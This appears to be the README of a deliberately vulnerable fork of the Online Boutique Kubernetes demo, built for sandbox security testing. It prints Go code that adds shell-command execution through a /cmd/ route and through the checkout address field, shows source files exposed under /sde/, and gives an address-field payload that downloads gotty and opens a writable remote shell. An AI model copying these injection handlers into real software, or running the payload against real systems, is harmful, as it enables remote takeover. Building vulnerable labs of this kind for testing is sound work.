 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#rce)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />
